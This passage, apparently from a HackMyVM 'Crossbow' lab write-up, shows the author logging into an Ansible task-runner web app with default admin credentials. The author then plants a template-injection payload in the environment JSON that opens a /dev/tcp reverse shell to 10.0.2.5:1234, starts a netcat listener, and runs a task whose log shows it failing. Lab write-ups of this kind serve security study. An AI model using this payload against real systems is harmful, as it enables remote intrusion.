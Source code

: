 We can try to logon to the application with the user `admin` and the password `admin` what we have setup in previous steps.
![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231224111522.png){: width="700" height="400" }

The logon was successful, now we should browse the web application so we can discover what we can do. In the blog they described we could exploit it via the `environment` settings. Let's start over there.
![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231224111652.png){: width="700" height="400" }

There is sample data available. Let's edit this for our needs.

According the blog we should use this json code to gain a reverse shell.

```
{
  "ansible_user": "{{ lookup('ansible.builtin.pipe', \"bash -c 'exec bash -i &>/dev/tcp/10.0.2.5/1234 <&1'\") }}"
}
```


![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231224111842.png){: width="700" height="400" }

After saving the new configuration we should start a netcat listener on our system.

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Crossbow]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...

```

Now we should navigate to the `Task Templates`.
![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231224112015.png){: width="700" height="400" }

Since there is only one task present we can click on the `RUN` button

![image](/assets/img/WriteUp/HackMyVM/Crossbow/Pasted image 20231224112140.png){: width="700" height="400" }

One more click on `RUN` button and let's see if there is a reverse shell established.

```
 11:21:32 AM
Task 98 added to queue
11:21:34 AM
Preparing: 98
11:21:34 AM
Prepare TaskRunner with template: clean logs
11:21:34 AM
installing static inventory
11:21:34 AM
No collections/requirements.yml file found. Skip galaxy install process.
11:21:34 AM
No roles/requirements.yml file found. Skip galaxy install process.
11:21:39 AM
Started: 98
11:21:39 AM
Run TaskRunner with template: clean logs
11:21:39 AM
ERROR: Ansible could not initialize the preferred locale: unsupported locale setting
11:21:39 AM
Running playbook failed: exit status 1
```
